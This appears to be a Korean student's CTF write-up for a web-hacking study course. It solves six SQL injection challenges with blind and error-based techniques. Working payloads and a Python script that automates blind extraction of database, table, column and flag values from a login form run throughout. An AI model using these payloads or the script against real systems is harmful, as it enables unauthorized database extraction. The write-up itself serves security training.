# 웹해킹 스터디 7주차 과제: Blind SQL Injection & Error Based SQL Injection

## 개요

- 이 문서는 Blind SQL Injection과 Error Based SQL Injection을 활용한 CTF 문제 풀이 기록입니다.
- 각 문제는 로그인 우회, 세션 처리 방식, 그리고 SQL 쿼리 구조의 취약점을 분석하여 flag를 획득하는 과정을 담고 있습니다.
- 실제 공격 시나리오를 바탕으로 다양한 우회 및 추출 기법을 적용하며, 특히 응답 지연, 참/거짓 판단, 에러 메시지 기반 정보 노출 등의 요소를 집중적으로 다룹니다.

---

## CTF 문제 풀이 정리

### SQL Injection (Blind Practice)



이 문제는 Blind SQL Injection 취약점이 존재하는 CTF 문제이다.

- 서버는 쿼리 결과에 따라 다음과 같은 메시지를 출력한다
    - 존재하는 ID일 경우 → "**존재하는 아이디입니다.**"
    - 존재하지 않는 ID일 경우 → "**존재하지않는 아이디입니다.**"

- 우선 SQL 인젝션이 가능한지 확인하기 위해 다음과 같이 테스트를 진행했다.
`query=normaltic' and '1'='1`을 입력했을 때는 **"존재하는 아이디입니다."**라는 응답이 나왔고,
`query=normaltic' and '1'='2`를 입력했을 때는 **"존재하지 않는 아이디입니다."**라는 응답이 출력되었다.

이를 통해 입력값이 SQL 쿼리에 제대로 반영되고 있으며, **Boolean 기반 Blind SQL Injection이 가능한 상태**임을 확인할 수 있었다.

이제 이를 활용하여 **현재 사용 중인 데이터베이스**를 추출해보겠다.

Blind SQL Injection을 보다 빠르게 수행하기 위해, 이를 자동화하는 **파이썬 스크립트를 작성하여 데이터베이스 정보를 추출**할 예정이다.

```html
normalti' or ascii(substr(database(),{i},1))={ascii} and '1'='1
```



- 위와 같이 페이로드를 구성하여 **Blind SQL Injection 자동화를 위한 파이썬 스크립트**를 작성하였다.



스크립트를 실행한 결과, 데이터베이스 이름은 **blindSqli**로 확인되었다.

- 이제 `information_schema`를 **이용해 테이블명을 추출할 예정**이다.

```html
' or ascii(substr((select table_name from information_schema.tables where table_schema=database() limit {j},1),{i},1))={ascii} and '1'='1
```

- 위와 같이 파라미터에 들어갈 **파이썬용 Blind SQLi 페이로드**를 구성한 후.



- 스크립트를 약간 수정한 뒤, 해당 페이로드로 **테이블 이름을 추출**하였다.



> 테이블 이름: **flagTable**

- 테이블 이름을 확인했으므로, 이제 `information_schema`를 통해 **컬럼명을 추출**할 차례다.

```html
' or ascii(substr((select column_name from information_schema.columns where table_name='flagTable' limit {j},1),{i},1))={ascii} and '1'='1
```


- 최종 컬럼 추출 결과:
    - **idx**
    - **flag**

- 이제 마지막으로, **`flag` 컬럼에 저장된 데이터를 추출**할 것이다.

```html
' or ascii(substr((select flag from flagTable limit {j},1),{i},1))={ascii} and '1'='1
```



**이렇게 최종적으로 flag까지 얻어내는 데 성공하였다.**

---

### SQL Injection (Error Based SQLi Basic)

- 이 문제는 Error Based SQLi Injection 취약점이 존재하는 CTF 문제이다. 

- 서버는 쿼리 결과에 따라 **"존재하는 아이디입니다."** 또는 **"존재하지않는 아이디입니다."**라는 응답 메시지를 출력한다.

이전과 동일하게 SQL 인젝션이 가능한지 확인하기 위해 다음과 같이 테스트를 진행하였다.

- 마찬가지로 `query=normaltic' and '1'='1`을 입력했을 때는 **"존재하는 아이디입니다."**라는 응답이 나왔고,
`query=normaltic' and '1'='2`를 입력했을 때는 **"존재하지 않는 아이디입니다."**라는 응답이 출력되었다.

- 이를 바탕으로, 이번에는 **Error Based SQL Injection 공격**을 시도해볼 것이다.

```html
'+or+extractvalue(1,concat(0x7e,database()))+and+'1'='1
```

위의 페이로드를 삽입하여 공격한 결과,



- **데이터베이스 이름이 에러 메시지를 통해 노출되었다.**

> 데이터베이스 이름: **errSqli**

- 이 데이터베이스 이름을 기반으로, **테이블 → 컬럼 → 플래그 값**까지 순차적으로 추출할 것이다.

```html
'+or+extractvalue(1,concat(0x7e,(select+table_name+from+information_schema.tables+where+table_schema='errSqli'+limit+0,1)))+and+'1'='1
```

> 테이블 이름: **flagTable**

```html
'+or+extractvalue(1,concat(0x7e,(select+column_name+from+information_schema.columns+where+table_schema='errSqli'+and table_name='flagTable'+limit+1,1)))+and+'1'='1
```

> 컬럼 이름: **idx**, **flag**

**flag 컬럼 데이터 추출**
```html
'+or+extractvalue(1,concat(0x7e,(select+flag+from+flagTable+limit+0,1)))+and+'1'='1
```



**최종적으로 flag까지 얻어내는 데 성공하였다.**

---

### SQL Injection 3



- 이번 문제는 로그인 화면에서 시작된다.
우선, 문제에서 제공된 계정 정보를 이용해 로그인을 시도해보았다.
> 계정 : normaltic / 1234



- 로그인에 성공하면 서버는 `302 Found` 응답과 함께 `index.php`로 리다이렉션시킨다.
이를 통해 로그인 로직이 정상 동작함을 확인했으며, 이제 이를 바탕으로 SQL Injection 테스트를 진행해볼 것이다.

- 실행 결과, `normaltic' and '1'='1`을 입력했을 때는 **302 리다이렉션**이 발생하고,
`normaltic' and '1'='2`를 입력했을 때는 **200 OK 응답**이 반환되었다.

이제 이 결과를 바탕으로, **Error Based SQL Injection 공격**을 시도해볼 것이다.

```html
' or extractvalue(1,concat(0x7e,(select+database()))) and '1'='1
```

**실행 결과:**



- **Error Based SQL Injection을 통해 데이터베이스 이름(`sqli_2`)을 성공적으로 추출**할 수 있었다.
이제 이 정보를 바탕으로, **해당 데이터베이스 내의 테이블, 컬럼, 그리고 최종 데이터까지** 순차적으로 추출할 것이다.

```html
' or extractvalue(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='sqli_2' limit 0,1))) and '1'='1
```

> 테이블 이름: **flag_table**

- 테이블 이름까지 성공적으로 추출하였다. 이제 해당 테이블에서 컬럼명을 추출해보겠다.

```html
' or extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where table_schema='sqli_2' and table_name='flag_table' limit 0,1))) and '1'='1
```

> 컬럼 이름: **flag**

- 이제 마지막으로, 이 컬럼에 저장된 **flag 값**을 추출해보겠다.

```html
' or extractvalue(1,concat(0x7e,(select flag from flag_table limit 0,1))) and '1'='1
```



**이렇게 해서 최종적으로 flag 값을 성공적으로 획득하였다.**

---

### SQL Injection 4

- 이번 문제 이전과 동일한 로그인 화면으로 시작된다.
> 계정 : normaltic / 1234

- 똑같이 문제에서 준 아이디/비번으로 로그인을 시도하니 로그인에 성공할 경우에는 `302 리다이렉션`, 실패할 경우에는 `200 OK 응답`이 반환된다.
이를 통해 **로그인 여부를 HTTP 응답 코드로 판별할 수 있음**을 알 수 있다.

우선, SQL 인젝션이 가능한지 확인하기 위해 간단한 테스트를 진행하였다.

- 아까와 똑같이 `normaltic' and '1'='1`을 입력했을 때는 **302 리다이렉션**이 발생하고,
`normaltic' and '1'='2`를 입력했을 때는 **200 OK 응답**이 반환되었다.

이번에도 **Error Based SQL Injection** 기법을 사용하여 공격을 시도할 것이다.

```html
' or extractvalue(1,concat(0x7e,database())) and '1'='1
```

**실행 결과:**



> 데이터베이스 이름: **sqli_2_1**

- 이제 데이터베이스 이름을 바탕으로, **테이블명부터 컬럼, 최종 데이터**까지 차례로 추출해볼 것이다.

```html
' or extractvalue(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='sqli_2_1' limit 0,1))) and '1'='1
```

> 테이블 이름: **flag_table**

- 이어서, 해당 테이블의 컬럼 정보도 순차적으로 추출해보자.

```
' or extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where table_schema='sqli_2_1' and table_name='flag_table' limit ?,1))) and '1'='1
```

- 컬럼을 추출해본 결과, 테이블에는 `flag1`, `flag2`, `...`, `flag8`과 같은 이름의 컬럼들이 존재하였다.

이제 각 컬럼을 하나씩 조회하여, **실제 데이터 값을 추출**해보겠다.

```html
' or extractvalue(1,concat(0x7e,(select flag1 from flag_table limit 0,1))) and '1'='1
```

위 페이로드를 활용하여 `flag1`부터 `flag8`까지의 컬럼 값을 순차적으로 조회하였다.
그 결과, **각 컬럼에 저장된 값들을 조합하여 최종 플래그를 완성**할 수 있었다.

---

### SQL Injection 5

- 이번 문제 역시 이전과 동일한 로그인 화면으로 시작된다.
> 계정 : normaltic / 1234

- 로그인에 성공할 경우에는 `302 리다이렉션`, 실패할 경우에는 `200 OK 응답`이 반환된다.

이를 기반으로, SQL 인젝션이 가능한지 테스트를 진행해보겠다.

```html
normaltic' and '1'='1
normaltic' and '1'='2
```
> **아까와 똑같다.**

이를 기반으로, **Error Based SQL Injection 공격**을 진행해보겠다.

```html
' or extractvalue(1,concat(0x7e,database())) and '1'='1
```

**실행 결과:**


> 데이터 베이스 이름: **sqli_2_2**

이를 이용하여 **테이블명과 컬럼명, 그리고 최종 데이터**까지 추출해보겠다.

```html
' or extractvalue(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='sqli_2_2' limit 0,1))) and '1'='1
```

> 테이블 이름: **flagTable_this**

**컬럼명 추출:**
```html
' or extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where table_schema='sqli_2_2' and table_name='flagTable_this' limit 1,1))) and '1'='1
```

> 컬럼 이름: **idx**, **flag**

- 이제 최종 flag 데이터를 추출해보겠다.

```html
' or extractvalue(1,concat(0x7e,(select flag from flagTable_this limit 13,1))) and '1'='1
```



**이렇게 최종 flag를 획득하였다.**

---

### SQL Injection 6

- 이번 문제 역시 이전과 동일한 로그인 화면으로 시작된다.
> 계정 : normaltic / 1234

- 로그인에 성공할 경우에는 `302 리다이렉션`, 실패할 경우에는 `200 OK 응답`이 반환된다.

이를 기반으로, SQL 인젝션이 가능한지 테스트를 진행해보겠다.

- 아까와 똑같이 `normaltic' and '1'='1`을 입력했을 때는 **302 리다이렉션**이 발생하고,
`normaltic' and '1'='2`를 입력했을 때는 **200 OK 응답**이 반환되었다.

하지만 이번에는 **Error Based SQL Injection** 기법을 시도했으나, **서버 측 필터링 또는 예외 처리로 인해 동작하지 않았다.**
따라서 이번에는 **Blind SQL Injection** 방식으로 공격을 진행해보겠다

```html
normaltic' or ascii(substring(database(),1,1))=115 and '1'='1
```

- 위 페이로드를 실행한 결과, **조건이 참일 경우 `200 OK`**, 거짓일 경우 `302 리다이렉션` 응답이 발생하였다.
이를 기반으로, **Blind SQL Injection 자동화를 위한 파이썬 스크립트**를 작성해보겠다.

```python
import requests

def sqli_true(payload: str) -> bool:
    data = {
        "UserId": payload,
        "Password": "1234",
        "Submit": "Login"
    }
    r = requests.post("http://ctf2.segfaulthub.com:7777/sqli_3/login.php", data=data, allow_redirects=False)
    return r.status_code == 200

def dump_data(sql: str) -> str:
    result = ""
    for i in range(1, 50):
        for ascii_code in range(32, 127):
            payload = f"normaltic' or ascii(substr(({sql}),{i},1))={ascii_code} and '1'='1"
            if sqli_true(payload):
                result += chr(ascii_code)
                print(chr(ascii_code), end='')
                break
        else:
            break
    return result

if __name__ == "__main__":
    print("DB: ")
    db = dump_data("database()")
    print("\n")
    print("Table: ")
    table = dump_data(f"select table_name from information_schema.tables where table_schema='{db}' limit 0,1")
    print("\n")
    print("Column:")
    col = dump_data(f"select column_name from information_schema.columns where table_name='{table}' limit 0,1")
    print("\n")
    print("Flag:")
    flag = dump_data(f"select {col} from {table} limit 0,1")
    print("\n")
    print(f"Flag → {flag}")
```

- 이를 활용하여 데이터베이스 이름부터 테이블, 컬럼, 최종 데이터까지 **순차적으로 자동 추출하는 Python 스크립트**를 작성하였다.



**이렇게 마지막 문제의 flag까지 성공적으로 추출할 수 있었다.**

> 파이썬 자동화 스크립트: [sqli_auto.py](./sqli_auto.py)